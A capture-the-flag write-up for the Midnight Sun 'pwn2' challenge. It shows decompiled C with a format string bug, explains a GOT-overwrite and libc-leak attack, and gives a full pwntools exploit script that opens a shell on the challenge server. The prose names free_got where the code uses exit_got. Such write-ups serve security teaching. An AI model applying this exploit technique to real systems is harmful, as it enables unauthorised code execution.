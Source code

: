 # pwn2
> LongChampion, 06/04/2020

## Challenge
The binary is compiled with no PIE and partial RELRO, look at `main` function:
```cpp
void __cdecl __noreturn main(int a1)
{
  char s[4]; // [esp+0h] [ebp-4Ch]
  char v2; // [esp+4h] [ebp-48h]
  unsigned int v3; // [esp+40h] [ebp-Ch]
  int *v4; // [esp+44h] [ebp-8h]

  v4 = &a1;
  v3 = __readgsdword(0x14u);
  *(_DWORD *)s = 0;
  memset(&v2, 0, 0x3Cu);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  alarm(0x3Cu);
  sub_80485B6();
  printf("input: ");
  fgets(s, 64, stdin);
  printf(s);
  exit(0);
}
```
Well, you can see that these is a format string vulnerable.  
First, I overwrite free_got with main_addr to create a loop, so we can use this vulnerable multiple times. After that, I use format string to scan the return address of main to leak libc base address. Finally, I overwrite printf_got with `system` then type `/bin/sh` to pop a shell.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./pwn2"

BASE = 7
exit_got = 0x804b020
main_addr = 0x080485EB

r = remote('pwn2-01.play.midnightsunctf.se', 10002)
lib = ELF("./libc.so.6", checksec=False)


payload1 = fmtstr_payload(BASE, {exit_got: main_addr})
r.sendlineafter("input:", payload1)

payload2 = "%59$x"
r.sendlineafter("input:", payload2)
Leak = r.recvline().strip()
print "Leak =", Leak
LIBC = int(Leak, 16) - lib.symbols["__libc_start_main"]
log.info("LIBC ~= " + hex(LIBC))
LIBC &= ~0xfff
log.success("LIBC: " + hex(LIBC))

system = LIBC + lib.symbols["system"]

printf_got = 0x804b00c
payload3 = fmtstr_payload(BASE, {printf_got: system}, write_size="short")
r.sendlineafter("input:", payload3)
r.interactive() # type /bin/sh to pop a shell
```
